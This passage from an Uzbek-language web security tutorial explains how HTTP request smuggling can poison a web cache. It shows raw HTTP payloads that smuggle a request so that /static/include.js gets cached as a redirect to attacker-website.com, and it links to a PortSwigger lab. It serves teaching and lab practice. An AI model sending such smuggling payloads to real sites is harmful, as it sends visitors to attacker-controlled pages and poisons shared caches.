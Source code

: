 ```http
GET //attacker-website.com/example HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Premanently
Location: //attacker-website.com/example/
```

## <mark style="color:yellow;">Web Cache zararlashda HTTP Request Smugglingdan foydalanish</mark> <a href="#web-cache-poisoning-ni-amalga-oshirish-uchun-http-request-smuggling-dan-foydalanish" id="web-cache-poisoning-ni-amalga-oshirish-uchun-http-request-smuggling-dan-foydalanish"></a>

Xujum qilish usullaridan yana biri bu HTTP Request Smuggling dan foydalangan holda Web Cache Poisoning xujumini amalga oshirishdir. Agar Frontend ning biror bir qismi cachelardan foydalansa (albatta cache lardan foydalanish performance sababidan bo'ladi ko'pincha), off-site redirect response bilan keshni zararlash mumkin bo'lishi mumkin. Bu xujumni doimiy ravishda amalga oshirish imkoniyatini beradi va har qanday ta'sir o'tkazilgan URL ga kirgan foydalanuvchiga ta'sir o'tkazishi mumkin.

Ushbu misolda, Haker quyidagilarni Frontend serverga yubormoqda:

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```

Smuggled request, back-end serverga yetib boradi, u avvalgidek off-site redirect bilan javob beradi. Front-end serveri bu javobni ikkinchi so'rovdagi URL manziliga qarshi keshlaydi, ya'ni /static/include.js:

```http
GET /static/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

Bundan keyin, foydalanuvchilar ushbu URL ga so'rov yuborishsa, sayt ularni haker tomonidan yozilgan web saytga yo'naltirib yuboraveradi.

{% hint style="warning" %}
<mark style="color:yellow;">**Lab:**</mark> [Web Cache zararlashda HTTP Request Smugglingni exploit qilish ≫](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning)
{% endhint %}

